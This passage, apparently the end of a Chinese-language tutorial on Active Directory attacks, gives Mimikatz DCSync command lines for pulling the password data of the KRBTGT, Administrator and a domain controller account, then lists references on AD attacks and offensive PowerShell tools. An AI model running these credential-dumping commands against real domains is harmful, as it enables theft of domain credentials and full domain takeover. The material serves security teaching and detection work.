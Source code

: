 另外还有一个`/guid`参数。

DCSync 命令行示例：

拉取 rd.adsecurity.org 域中的 KRBTGT 用户帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt" exit

```

拉取 rd.adsecurity.org 域中的 Administrator 用户帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user:Administrator" exit

```

拉取 lab.adsecurity.org 域中 ADSDC03 域控制器的计算机帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:lab.adsecurity.org /user:adsdc03$" exit

```

![p13](http://drops.javaweb.org/uploads/images/b85221e45ba3efbde39adc0df6175b9826350ed8.jpg)

如果帐户启用了 “可逆加密”，则会显示明文密码。

![p14](http://drops.javaweb.org/uploads/images/195b9d96cf66789d1203b92b0de9869bb1cc9f89.jpg)

0x0C 参考及引用
==========

* * *

*   [Sean Metcalf’s Presentations on Active Directory Security](https://adsecurity.org/?page_id=1352)
*   [How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller](https://adsecurity.org/?p=451)
*   [Attack Methods for Gaining Domain Admin Rights in Active Directory](https://adsecurity.org/?p=2362)
*   [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)
*   [Dump Clear-Text Passwords for All Admins in the Domain Using Mimikatz DCSync](https://adsecurity.org/?p=2053)
*   [Mimikatz Guide and Command Reference](https://adsecurity.org/?page_id=1821)
*   Matt Graeber presented on leveraging WMI for offensive purposes at Black Hat USA 2015 ([paper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf),[slides](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor.pdf), and[video](https://www.youtube.com/watch?v=pqth74Uzxy4)). Matt also spoke at DEF CON 23 (video) with colleagues and dove further into offensive WMI capability (and again at DerbyCon –[video](https://www.youtube.com/watch?v=3UZ3Afm5hO4))
*   [PowerShellMafia’s PowerSploit offensive PowerShell tools on Github](https://github.com/PowerShellMafia/PowerSploit)
*   Joe Bialek’s ([@JosephBialek](https://twitter.com/JosephBialek))[his blog post about Invoke-NinjaCopy](https://clymb3r.wordpress.com/2013/06/13/using-powershell-to-copy-ntds-dit-registry-hives-bypass-sacls-dacls-file-locks/)
*   [DIT Snapshot Viewer](https://github.com/yosqueoy/ditsnap)